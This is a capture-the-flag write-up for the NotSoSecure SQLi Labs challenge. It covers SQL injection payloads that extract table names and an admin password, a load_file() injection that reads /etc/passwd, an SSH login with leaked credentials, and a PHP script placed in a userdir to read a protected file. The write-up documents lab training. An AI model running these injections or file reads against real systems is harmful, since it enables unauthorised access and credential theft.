 
NotSoSecure CTF Writeup
=======================

This is a writeup for the public CTF hosted by NoSoSecure for the celebration 
of SQLi Labs's launch. It started 16:00 BST on Friday 25th October and ended 
21:00 BST on Sunday 27th October. Three PizzaEaters' members participated.

First flag
-----------
In the mail containing the instructions to start the CTF, the following URL was
supplied:
 
	http://ctf.notsosecure.com/71367217217126217712/

This page requires an username and password, but there was no mention of it in 
the email. We submitted the form empty, and noticed a HTTP 302 redirect with 
the following information:

	7365637265745f72656769737465722e68746d6c

We noticed the hex encoding and we decoded the string with this simple Python 
script:

	s = '7365637265745f72656769737465722e68746d6c'
	print ''.join([chr(int(s[n:n+2], 16)) for n in xrange(0, len(s), 2)])

The output was `secret_register.html`. Opening the page we are greeted with a 
registration form which we filled and noticed that the registration is 
performed through a GET request:

	http://ctf.notsosecure.com/71367217217126217712/register.php?regname=foobar&
	regemail=foo%40bar.com&regpass1=a&regpass2=a

After that, we see a page with a link to a login page, after logging in we are 
redirected to `uber_secret.php`. After the redirect, we noticed the server set 
a HTTP cookie containing an encoded information in the `session_id` field:
 
	Set-Cookie: session_id=Zm9vQGJhci5jb20%3D

It looked like base64 to us, and it was:

	$ echo -n "Zm9vQGJhci5jb20=" | base64 -d
	foo@bar.com

It seems the page sets a cookie containing the user's email. "This thing 
probably has an admin user", we thought, so we started injecting SQL using that 
username. We tried using `username` and then `name` as the column name, the 
latter was correct. So, injecting `!!' or name = 'admin`, we noticed that 
`session_id` was changed to `YWRtaW5Ac3FsaWxhYnMuY29t`, which after decoding 
means `admin@sqlilabs.com`.

Perfect! We just found the flaw. Now we need to figure out the password column
and the table name to retrieve the password from the `admin` user. We assumed 
the column would be called `password` so we now only had to discover the table 
name. We looked up for tables with `password`-named columns with the following 
SQL:

	!!' union select (select table_name from information_schema.columns where column_name = 'password'), 'a

Turns out it was called `users`, how predictable. Why didn't we try `users` 
before typing all that SQL?

Now we only need to know the user's password. Injecting this we got 
`sqlilabRocKs!!` as administrator password:

	!!' union select password, name from users where name = 'admin

Logging in using `admin` and `sqlilabRocKs!!` we see the instruction to the next
flag:

	Well done, Flag is 815290. 2nd flag is in file secret.txt

Second flag
-----------

The first flag revealed that the server had a `/secret.txt file`, which we 
tried to read using `load_file()` in a SQLi only to find that we were unable to 
do so. How foolish of us, of course they wouldn't make it that easy.

After we put some thought on it, a member of our team suggested trying to read 
`/etc/passwd` and we did it by injecting `!!' union select 
load_file('/etc/passwd'), 'a` as the value of the `myusername` field in a POST 
request to `checklogin.php`. Guess what we found? There was an user which had 
his password field set:

	temp123:x:1001:1001:weakpassword1:/home/temp123:/bin/sh

We ssh'd into `ctf.notsosecure.com` using that username and password and it 
worked. Now we only had to read `/secret.txt`:

	cat: /secret.txt: Permission denied

Oh snap! Why can't we read it? `ls -l` revealed it could only be read by 
`www-data`:

	-r--------   1 www-data www-data   684 Oct 25 07:46 secret.txt

We couldn't use `sudo` or `su`, we didn't find any exploitable suid executable 
(we didn't search thoroughly actually) and we could not put a script into 
`/var/www` to dump the file's contents. "damn", we thought, "how the hell are 
we going to read that file?". After looking for more options, we went to apache's
configuration directory and then into it's `mods-enabled`folder and we saw this:

	lrwxrwxrwx 1 root root 30 Oct  6 17:17 userdir.conf -> ../mods-available/userdir.conf
	lrwxrwxrwx 1 root root 30 Oct  6 17:17 userdir.load -> ../mods-available/userdir.load

"Mua-ha-ha!" Now everything seemed clear, and it was. We created 
`~temp12/public_html` and put a little PHP script to dump the file:

	<?php echo file_get_contents('/secret.txt');

We opened the URL `http://ctf.notsosecure.com/~temp123/` and there it was, the
flag. We had finally reached the goal of our quest:

	Well done, 2nd Flag is 128738213812990. email both the flags to ctf@notsosecure.com [...]

What a pleasant journey we had! Thank you to SQLi Labs and NotSoSecure for all 
the fun. See you next time!

